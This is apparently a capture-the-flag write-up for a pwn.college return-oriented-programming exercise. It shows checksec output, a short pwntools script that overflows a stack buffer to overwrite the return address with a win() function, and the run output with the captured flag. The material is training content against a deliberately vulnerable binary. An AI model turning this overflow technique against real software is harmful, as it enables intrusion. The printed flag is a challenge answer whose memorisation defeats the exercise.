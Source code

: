 # ROP WriteUP

## Setup

first we already have the all tools, like vscode, pwntools and others.

the guide to ROP is actually three things

1. Check security
2. Find the return address
3. Craft payload

## Babyrop 1.0

for this problem first i check the security using `checksec` from `pwn` modules

```
[*] '/challenge/babyrop_level1.0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

because the NX enabled we can't craft a shell code and if we look the PIE is disabled so it should be pretty easy. the challenges is available in the /challenge/babyrop_level1. just run ./babyrop_level1.0 and it gives me

```
###
### Welcome to ./babyrop_level1.0!
###

This challenge reads in some bytes, overflows its stack, and allows you to perform a ROP attack. Through this series of
challenges, you will become painfully familiar with the concept of Return Oriented Programming!

In this challenge, there is a win() function.
win() will open the flag and send its data to stdout; it is at 0x4024f9.
In order to get the flag, you will need to call this function.

You can call a function by directly overflowing into the saved return address,
which is stored at 0x7ffc526ad908, 120 bytes after the start of your input buffer.
That means that you will need to input at least 128 bytes (96 to fill the buffer,
24 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

Received 1 bytes! This is potentially -15 gadgets.
Let's take a look at your chain! Note that we have no way to verify that the gadgets are executable
from within this challenge. You will have to do that by yourself.

+--- Printing 4294967282 gadgets of ROP chain at 0x7ffc526ad908.

Leaving!
### Goodbye!
```

after i read the text it just basic overwrite return address. and it even gives me the offset. so i craft the payload

```py
from pwn import *

binary_name = "/challenge/babyrop_level1.0"

p = process(binary_name)

payload = cyclic(120)
payload += p64(0x00000000004024f9)

print(payload)
p.recvuntil(b"address).")
p.sendline(payload)
p.interactive()
```

becuase the 128bytes is including return address so we must subtract it by 8 bytes so the offset is actually 120bytes and we got the flag

```
hacker@babyrop_level1:~/babyrop1.0$ python payload.py
[+] Starting local process '/challenge/babyrop_level1.0': pid 273
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab\xf9$@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode

[*] Process '/challenge/babyrop_level1.0' stopped with exit code -11 (SIGSEGV) (pid 273)
Received 129 bytes! This is potentially 1 gadgets.
Let's take a look at your chain! Note that we have no way to verify that the gadgets are executable
from within this challenge. You will have to do that by yourself.

+--- Printing 2 gadgets of ROP chain at 0x7ffcdca74d28.
| 0x00000000004024f9: endbr64  ; push rbp ; mov rbp, rsp ; lea rdi, [rip + 0xc90] ; call 0x401150 ; 
| 0x000000000000000a: (UNMAPPED MEMORY)

Leaving!
You win! Here is your flag:
pwn.college{46d2mczXGy6QmtzEHi5g5RNHKdq.QXxQzMsATO1QzW}
```


# Made by gawrgare
